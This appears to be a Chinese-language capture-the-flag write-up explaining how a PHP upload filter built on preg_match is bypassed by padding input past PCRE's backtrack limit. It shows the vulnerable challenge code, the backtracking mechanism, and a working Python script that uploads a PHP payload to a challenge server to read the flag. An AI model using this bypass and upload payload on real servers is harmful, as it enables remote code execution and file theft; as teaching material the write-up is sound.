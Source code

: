 # 正则回溯引发的安全问题

### 一.	CTF题目

```php
<?php
function is_php($data){
    return preg_match('/<\?.*[(`;?>].*/is', $data);
}

if(empty($_FILES)) {
    die(show_source(__FILE__));
}

$user_dir = 'data/' . md5($_SERVER['REMOTE_ADDR']);
$data = file_get_contents($_FILES['file']['tmp_name']);
if (is_php($data)) {
    echo "bad request";
} else {
    @mkdir($user_dir, 0755);
    $path = $user_dir . '/' . random_int(0, 10) . '.php';
    move_uploaded_file($_FILES['file']['tmp_name'], $path);

    header("Location: $path", true, 303);
}
```

  代码逻辑很简单：通过正则匹配"\<? ... ?>"若匹配成功则判断为php代码返回"bad request"，失败则通过真实IP的MD5值创建目录，写入到一个文件名为随机数字的php文件里，最后跳转到该地址。

### 二.	解题思路

  思路有两种：1.绕过正则匹配；2.寻找preg_match函数本身的问题/漏洞

* 思路1：首先我们要了解一下php的标签有几种
   * 常规的是"\<?php ?>"

   * 短标签"\<? ?>"，需要在php.ini中开启short_open_tag

   * asp标签"<% %>"、"<%= %>"，需要在php.ini中开启asp_tags

   * "\<?= ?>"，php5.4以后总是可用不受short_open_tag影响

   * <script language="php"> </script>
      根据官方文档可知"<% %>"、"<%= %>"以及<script language="php"> </script>在php7中被移除
       ![image](php_tag.png)
       所以，如果是php5下可用<script language="php"> </script>绕过该正则，但题目环境是php7，所以我们需要寻找preg_match本身的问题

* 思路2：
  查看官方文档可以找到这样一个条目preg_last_error —— 返回最近一次正则执行的错误代码，其中有这样一个错误PREG_BACKTRACK_LIMIT_ERROR，当正则回溯超过pcre.backtrack_limit时引发该错误。
  ![image](backtrack_limit.png)
  当产生这个错误时函数的返回值为FALSE也就绕过了is_php()。


### 三.	正则回溯的机制
  PHP采用的正则库是PCRE(Perl Compatible Regular Expressions)，PCRE的正则引擎为NFA。正则引擎分为两种：NFA(nondeterministic finite automaton/非确定有限状态自动机)和DFA(deterministic finite automaton/确定有限状态自动机)。NFA在匹配时是以正则为主导，吃入字符进行匹配，若匹配不上则吐出一个字符进行回溯，对于多个正则式匹配最左子正则。例如：对于正则："god|goddess" 文本："goddess" NFA匹配到"god"时成功匹配到第一个子正则就会返回不会继续匹配下一个子正则"goddess"，所以最终的结果就是"god"。
回到题目：
```php
function is_php($data){
    return preg_match('/<\?.*[(`;?>].*/is', $data);
}
```

该正则对于文本"\<?php echo 1;?>/*padding"的匹配过程如下：

* "<\\?"匹配"<?"

* ".*"匹配"php echo 1;>/\*padding"

* "[(`;?>]"匹配失败，吐出结尾的一个字符"g"，回溯次数加一

* "[(`;?>]"匹配再次失败，吐出结尾的一个字符"n"，回溯次数加一

* ...

* 直到把"/*padding"全部吐出，"[(`;?>]"匹配到"?>"

* 最后".*"匹配"padding"，完成匹配


也就是说在这种情况下回溯次数等于结尾填充的字符串长度，当字符串长度超过pcre.backtrack_limit也就是1000000时，函数产生错误PREG_BACKTRACK_LIMIT_ERROR，返回FALSE，也就绕过了安全检查。

另外题目中还限制了命令执行函数，所以需要通过scandir()找到flag文件，用file_get_contents读取，所以最终payload如下：

```python
import requests

if __name__ == '__main__':
    response = requests.post('http://51.158.75.42:8088/',
                             files={'file': '<?php var_dump(file_get_contents("/var/www/flag_php7_2_1s_c0rrect"));/*' + 'a' * 1000000},
                             allow_redirects=False)
    print(response.headers)

```
 ![image](flag.png)

